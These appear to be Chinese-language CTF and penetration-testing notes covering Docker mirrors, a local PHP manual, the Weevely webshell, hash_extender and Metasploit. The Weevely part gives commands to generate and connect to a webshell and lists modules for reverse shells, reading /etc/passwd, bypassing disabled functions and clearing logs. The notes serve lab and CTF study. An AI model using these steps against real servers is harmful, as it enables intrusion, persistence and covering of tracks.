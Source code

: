 # 镜像
[ctfwiki/ctf-wiki - Docker Image | Docker Hub](https://hub.docker.com/r/ctfwiki/ctf-wiki)
[wcjiang/linux-command - Docker Image | Docker Hub](https://hub.docker.com/r/wcjiang/linux-command)
[mpepping/cyberchef - Docker Image | Docker Hub](https://hub.docker.com/r/mpepping/cyberchef)
##### PHP manual
[PHP: Download documentation](https://www.php.net/download-docs.php)
```dockerfile
FROM nginx
COPY ./php-chunked-xhtml /usr/share/nginx/html
```

```sh
docker build . -t php8-manual
docker run --rm --name php8-manual -dp 3001:80 php8-manual
```

# Weevely
kali自带的webshell管理工具
1. 生成木马文件，在weebely3文件夹中会生成一个连接密码为123的shell.php
```sh
./weevely.py generate <password> shell.php
```
2. 上传shell文件到目标服务器
3. 连接木马
```sh
./weevely.py http://192.168.139.129:81/shell.php <password>
```
4. 连上之后可以执行指令了
5. 利用自带模块收集信息

```sh
:system_info -info uname
# 直接输入help可以查看其他可用模块
```

```sh
:shell_su                     # 通过更变使用者来执行shell命令，可以获得root权限来执行命令.
:shell_sh                     # 执行 shell 命令.
:shell_php                    # 执行 PHP 命令.
:system_extensions            # 收集PHP和webserver扩展列表
:system_info                  # 收集系统信息
:system_procs                 # 列出正在运行的进程
:audit_disablefunctionbypass  # 使用mod_cgi和.htaccess绕过系统禁用函数的限制。它会上传.htaccess和CGI脚本，并在远程服务器上运行伪系统shell
:audit_etcpasswd              # 查看/etc/passwd文件
:audit_suidsgid               # 查找带有SUID或SGID标志的文件。
:audit_phpconf                # 查看php配置信息
:audit_filesystem             # 审核文件系统的弱权限。枚举各种系统目录并寻找可读写执行的目录，模块仅默认搜索部分linux下的常见目录，logs、root、home等
:backdoor_reversetcp          # 执行反向TCP shell. 需要nc -lvp <port>监听
:backdoor_tcp                 # 在TCP端口上生成shell
:net_scan                     # TCP端口扫描.
:net_mail                     # 发送邮件.
:net_ifconfig                 # 获取网络接口地址.
:net_curl                     # 执行类似curl的HTTP请求.
:net_proxy                    # 运行本地代理以通过目标转移HTTP / HTTPS浏览
:net_phpproxy                 # 在目标上安装PHP代理.
:bruteforce_sql               # 可用来猜解数据库密码.
:file_find                    # 查找具有给定名称和属性的文件.
:file_download                # 从远程文件系统下载文件.
:file_check                   # 获取文件的属性和权限.
:file_touch                   # 更改文件时间戳.
:file_cd                      # 更改当前工作目录.
:file_grep                    # 打印与多个文件中的模式匹配的行.
:file_gzip                    # 压缩或解压gzip文件.
:file_tar                     # 压缩或解压tar文件.
:file_enum                    # 检查路径列表的存在和权限
:file_bzip2                   # 压缩或解压bzip2文件.
:file_mount                   # 使用HTTPfs挂载远程文件系统.
:file_clearlog                # 从文件中删除字符串.
:file_zip                     # 压缩或解压zip文件.
:file_cp                      # 复制单个文件.
:file_upload2web              # 自动将文件上传到Web文件夹并获取相应的URL.
:file_edit                    # 在本地编辑器上编辑远程文件.
:file_read                    # 从远程文件系统中读取远程文件.
:file_webdownload             # 指定URL下载文件.
:file_upload                  # 文件上载到远程文件系统.
:file_ls                      # 列出目录内容.
:file_rm                      # 删除远程文件.
:sql_dump                     # Multi dbms mysqldump replacement.
:sql_console                  # 执行SQL查询或运行sql控制台.
```


# Hash_extender
[iagox86/hash_extender (github.com)](https://github.com/iagox86/hash_extender)
哈希扩展攻击的实现

```sh
# clone后将makefile中改为-Wno-deprecated-declarations再进行make
- CFLAGS		:= -std=c89 -g -oS -Wall -Werror -Wno-deprecated
+ CFLAGS		:= -std=c89 -g -oS -Wall -Werror -Wno-deprecated-declarations


# 使用方式
hash_extender --data data --secret 6 --append append --signature 6036708eba0d11f6ef52ad44e8b74d5b --format md5

# H(secret + data)
# 使得自行拼凑的 H(secret + data + append)有效
# secret其实可以随便填，反正随便猜个长度
```



# Metasploit
`msfconsole`启动
常用的渗透测试工具，包含了常见的漏洞利用模块和生成各种木马。
